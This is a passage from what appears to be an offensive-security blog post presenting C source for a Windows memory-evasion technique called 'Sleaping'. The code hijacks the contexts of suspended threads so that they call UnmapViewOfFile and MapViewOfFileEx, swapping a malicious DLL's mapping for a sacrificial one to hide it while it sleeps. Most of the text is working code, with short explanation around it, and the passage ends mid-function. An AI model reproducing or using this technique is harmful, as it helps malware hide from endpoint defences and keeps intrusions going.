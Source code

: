 ```c
    (*contextC).Rcx = (DWORD64)(ImageBaseDLL);

    *(ULONG_PTR*)((*contextD).Rsp) = (DWORD64)ExitThread;
    (*contextD).Rip = (DWORD64)MapViewOfFileEx;
    (*contextD).Rcx = (DWORD64)malDllHandle;
    (*contextD).Rdx = FILE_MAP_ALL_ACCESS | FILE_MAP_EXECUTE;
    (*contextD).R8 = (DWORD64)0x00;
    (*contextD).R9 = (DWORD64)0x00;
    *(ULONG_PTR*)((*contextD).Rsp + 40) = 0x00; //the offset must be either hex 28 or int 40
    *(ULONG_PTR*)((*contextD).Rsp + 48) = (ULONG_PTR)ImageBaseDLL;

    SetThreadContext(ThreadArray[0], context);
    SetThreadContext(ThreadArray[1], contextB);
    SetThreadContext(ThreadArray[2], contextC);
    SetThreadContext(ThreadArray[3], contextD);
```

Bellissimo, an important thing to notice here and to point out: the way I set the arguments in the context of the threads is very similar to what I did in EkkoQua, except for one thing. 

As you can see the RSP pointer is set to ExitThread function address, why? 

If you take a look the stack of a thread created in suspended state you will notice that it’s allocated but it’s all zeros. ☠️

So what happens? Well the thread will execute the function but when it will try to go to the return address it will fall into a very big ACCESS VIOLATION EXCEPTION. Since we want to sle(a)p well at night we exit the threads using ExitThread. 

Well, that’s it, now full code, test run and some screenshots! 

```c
int Sleaping(PVOID ImageBaseDLL, HANDLE sacDllHandle, HANDLE malDllHandle, SIZE_T viewSize) {

    
    CONTEXT* context = (CONTEXT*)(VirtualAlloc(NULL, sizeof(CONTEXT), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE));
    CONTEXT* contextB = (CONTEXT*)(VirtualAlloc(NULL, sizeof(CONTEXT), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE));
    CONTEXT* contextC = (CONTEXT*)(VirtualAlloc(NULL, sizeof(CONTEXT), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE));
    CONTEXT* contextD = (CONTEXT*)(VirtualAlloc(NULL, sizeof(CONTEXT), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE));

    HANDLE ThreadArray[4] = { NULL };

    context->ContextFlags = CONTEXT_ALL;
    contextB->ContextFlags = CONTEXT_ALL;
    contextC->ContextFlags = CONTEXT_ALL;
    contextD->ContextFlags = CONTEXT_ALL;

    // Create a thread to control
    ThreadArray[0] = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)UnmapViewOfFile, NULL, CREATE_SUSPENDED, NULL);
    if (ThreadArray[0] == NULL) {
        
        return -1;
    }
    ThreadArray[1] = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)MapViewOfFileEx, NULL, CREATE_SUSPENDED, NULL);
    if (ThreadArray[1] == NULL) {
        
        return -1;
    }
    ThreadArray[2] = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)UnmapViewOfFile, NULL, CREATE_SUSPENDED, NULL);
```